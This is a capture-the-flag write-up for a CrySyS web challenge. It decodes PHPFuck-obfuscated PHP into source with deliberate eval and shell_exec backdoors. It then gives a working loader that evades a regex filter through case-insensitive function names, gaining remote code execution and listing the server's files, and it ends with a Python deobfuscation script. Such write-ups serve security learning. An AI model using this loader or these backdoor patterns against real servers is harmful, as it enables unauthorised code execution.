

# Until the end

- Road to Valhalla part 3 
- medium

In part2 of Road to Valhalla you found the URL of the server that contains the coordinates of Valhalla. You open the site and see the title of the page "Only those who endure until the end". So be it traveler endure till the end and you will have your reward!

https://until-the-end.secchallenge.crysys.hu

author: Pepe

## Writeup

We were greeted with syntax-highlighted PHP code (linked because it's BIG). It was actually the source code of the page.

Identifying that brackety-thing was not straightforward, and took me some time. Googling `programming only brackets` led me to [this SO question](https://stackoverflow.com/questions/25622221/language-made-only-of-brackets-plus-and-exclamation-marks) and it turns out there's a joke-language (a subset of JS) called `JSFuck` witch uses only a few characters for programs. Of course, this is PHP and another set of characters...

After that, I've randomly googled `PHPFuck` and found [this github repo](https://github.com/splitline/PHPFuck), basically the exact thing used here.


(meme by `rnbwdsh`)

So, I've worked on un-fucking the script. It's not that hard, it's just making characters and concatenates them into code, then passes it to `create_function`. It mostly follows the pattern of `(char).(char).(char)`. With a PHP shell to eval the characters I've managed to search-replace all of them and reverse the code:
```PHP
<title>Only those who endure until the end</title>
<?php 
highlight_file(__FILE__);
if (isset($_GET[' '])) {
    $will_eval = str_replace('a', str_replace('kekw'), str_rot13(strtoupper(substr($_GET[' '], 42, 69))));
    var_dump($will_eval);
    eval($will_eval);
}
else if (isset($_GET['+'])) {
    if (preg_match('/[b-d\-0-9H-LA-DU-Xi-kn-s!?TEz.]/', $_GET['+'])) 
        die();
    eval($_GET['+']);
}
else {
    die();
    shell_exec($_GET['cmd']);
}
?>
```

So there's actually 2 backdoors, but possibly only one of them is accessible. With a few tries (a lot of them actually because I f-ed them up) it turns out that `+` can be a parameter if URL-encoded as `%2B`. It will only eval our payload if it does NOT match that regex, witch limits what we can do.

I've came up with a way to escape that regex prison by `eval()`-ing another `$_GET` parameter. I could not just include `$_GET`, but could do `$_Get` and `eval()` it after `strtoupper()` and get the same thing. The whole thing only works because function names are not case sensitive.

Here's my loader:
```php
$a=StRtOuPPeR('$_Get');
$Y=eval("RetuRN {$a};");
$x=$Y['x'];
eval($x);
```

Sent URL-encoded of course.

With that, I've gained RCE on the server. It took me a really long time to figure out that this even works, because I've always tried `shell_exec()` and `file_read()` and those were disabled (should have run `phpinfo()` first, stupid me). 

Anyways, if you list the contents of the folder, you can see that there is a folder named `very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]` and as with the previous ones I could just navigate there and find the flag.


The request I've found the folder with: `+=<loader>&x=echo scandir(".");`

### EDIT:
My code unfucking the PHP:
```python
REPLACE = [
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","c"],
    ["(([].[])[([]^[[]])])", "r"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "e"],
    ["(([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","a"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","t"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","_"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","f"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","u"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","n"],
    ["(([]^[]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","i"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","o"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","s"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "g"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","v"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","("],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","$"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","G"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","E"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","T"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","["],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])"," "],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])",'"'],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",","],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","\\'"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",")"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","{"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\n"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","]"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","l"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])])","p"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","k"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","w"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","m"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","h"],
    ["(([]^[[]]).[][[]])","1"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])])","3"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","b"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","4"],
    ["(([]^[[]])+([]^[[]]).[][[]])","2"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","6"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","9"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","d"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",";"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","+"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","}"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","/"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","-"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\"],
    ["(([]^[]).[][[]]^([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","x"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","!"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","H"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","L"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","D"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","U"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","X"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","?"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","z"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","."],
    ["(([].[])[([]^[])])","A"],
    ["(([]^[]).[][[]])","0"],

]

REPLACE.sort(key=lambda x: len(x[0]), reverse=True)


with open("phpfuck.php") as fin:
    with open("out.php", "w") as fout:
        l = fin.read()
        for r in REPLACE:
            l = l.replace(r[0],f"'{r[1]}'")
        #l = l.replace("'.'","")
        fout.write(l)
        
```
